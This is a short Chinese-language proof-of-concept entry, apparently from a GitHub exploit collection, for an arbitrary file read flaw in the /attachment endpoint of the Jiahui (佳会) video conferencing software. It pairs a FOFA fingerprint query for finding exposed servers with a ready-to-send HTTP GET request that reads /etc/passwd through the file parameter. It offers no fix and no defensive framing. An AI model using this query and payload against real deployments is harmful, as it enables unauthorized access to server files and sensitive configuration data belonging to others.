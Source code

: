 ## 佳会视频会议attachment任意文件读取

佳会视频会议是由杭州叁体网络科技有限公司开发的一款线上视频会议软件，叁体·佳会3.0是业内首家兼容HTML5/WebRTC技术的网络会议产品,无需下载任何客户端与插件，即可开启视频会议，无需下载插件即可分享屏幕,甚至只需要用微信/QQ扫描二维码，就能加入视频会议。

佳会视频会议/attachment接口存在任意文件读取漏洞，攻击者可以利用漏洞读取服务器上的任意文件，包括配置文件等敏感信息。

## fofa
```
body="/user/get_app_scheme?site_id="
```

## poc
```
GET /attachment?file=/etc/passwd HTTP/1.1
Host: your-ip
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
```

![553eaec68e6630ad8d9d0ec8e762bdef](https://github.com/wy876/POC/assets/139549762/e7412e36-718a-47cc-bec3-3c0b8fc2145a)
